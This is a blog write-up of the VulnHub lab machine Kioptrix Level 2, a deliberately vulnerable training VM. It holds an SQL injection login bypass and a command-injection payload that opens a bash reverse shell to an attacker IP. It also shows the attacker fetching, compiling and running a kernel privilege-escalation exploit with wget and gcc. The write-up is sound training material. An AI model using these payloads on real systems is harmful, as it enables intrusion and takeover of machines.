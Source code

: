 ```yaml
---
layout: post
title: "VulnHub - Kioptrix Level 2"
date: 2022-02-09
categories: [VulnHub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix Level 2/Kioptrix2.png
---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![netdiscover](../../assets/img/posts/Kioptrix Level 2/netdiscover.png)

Okay, so the IP address of the box is **10.0.2.67**.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.67
```

![nmap1](../../assets/img/posts/Kioptrix Level 2/nmap1.png)
![nmap2](../../assets/img/posts/Kioptrix Level 2/nmap2.png)

there are multiple ports open. Let's enumerate each one of them.

Let's find out what technologies are running on the machine using **whatweb** tool,

```bash
whatweb http://10.0.2.67
```

![whatweb](../../assets/img/posts/Kioptrix Level 2/whatweb.png)

it's running PHP programming language, has a password field (maybe login mechanism).

visit http://10.0.2.67,

![web1](../../assets/img/posts/Kioptrix Level 2/web1.png)

we got a admin login page. Let's try to break through in using SQLi.

We'll put username as `admin' or 1=1#` and password as `admin`(**any**)

![web2](../../assets/img/posts/Kioptrix Level 2/web2.png)

we'll get logged in as administrator,

![web3](../../assets/img/posts/Kioptrix Level 2/web3.png)

seems like this is a web console and we can ping any machines. Let's ping our own machine,

when **127.0.0.1** is entered in empty area, we'll get this result,

![web4](../../assets/img/posts/Kioptrix Level 2/web4.png)

we got ping result. This is a OS Command Execution Vulnerability and we can run other system commands as well on this web console.

Let's get to know which user we're by, `whoami`

![web5](../../assets/img/posts/Kioptrix Level 2/web5.png)

Let's start the netcat listener on kali terminal using `nc -nvlp 4444` and we'll put this one liner reverse shell in ping utility of website to get us a reverse shell when command gets executed.

```bash
127.0.0.1; bash -c 'exec bash -i &>/dev/tcp/10.0.2.15/4444 <&1'
```

![web6](../../assets/img/posts/Kioptrix Level 2/web6.png)

as soon as this command runs, we'll get back a reverse connection,

![shell1](../../assets/img/posts/Kioptrix Level 2/shell1.png)

we're apache user.

After enumeration, I found that there's nothing we can do to elevate our privileges to users like john or harold. 

**Privilege Escalation:** we'll escalate our privileges to super-user with help of enumeration. Let's first find out what is the system OS running,

```bash
cat /etc/*-release
```

![shell2](../../assets/img/posts/Kioptrix Level 2/shell2.png)

this box is running **CentOS 4.5 Final**.

Let's take a look at kernel version,

```bash
uname -mrs
```

![shell3](../../assets/img/posts/Kioptrix Level 2/shell3.png)

The kernel version of this box is **Linux 2.6.9-55.EL**. After doing some research on google, I found that this kernel is named as **IP_Append_data()**. Let's search this exploit on searchsploit,

```bash
searchsploit ip append data
```

![searchsploit](../../assets/img/posts/Kioptrix Level 2/searchsploit.png)

this is a C file exploit.

Let's download the exploit on our dir and start the python webserver using `python3 -m http.server 8000` and now we're going to upload this exploit on the box,

first navigate to /tmp directory because this directory has writable permissions and then we'll download this exploit using **wget** command,

```bash
wget http://10.0.2.15:8000/9542.c
```

Let's now compile this exploit using **gcc** compiler,

```bash
gcc -o 9542 9542.c
```

Now, let's run the exploit,

```bash
./9542
```

![shell4](../../assets/img/posts/Kioptrix Level 2/shell4.png)

doing `id` will show us that we're now ROOT user!!!.
